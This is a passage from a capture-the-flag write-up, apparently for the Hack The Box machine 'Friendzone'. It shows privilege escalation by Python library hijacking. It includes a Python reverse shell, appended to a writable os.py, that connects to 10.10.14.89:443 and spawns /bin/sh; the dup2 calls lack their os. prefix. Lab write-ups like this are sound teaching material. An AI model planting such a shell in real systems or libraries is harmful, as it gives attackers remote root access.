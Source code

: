 And we have write access to `os.py` this means we can insert a reverse shell at the end of the file and it will be executed when the `os` module is imported.

```py
import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.14.89",443)) 
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Set up a netcat listener port on 443 and we got root!!

![15-root](/assets/img/HTB/Friendzone/15-root.png)

That’s it for now guys. Until next time.

# Resource

Topic|URL
-|-
Python Library Hijacking|[https://medium.com/analytics-vidhya/python-library-hijacking-on-linux](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
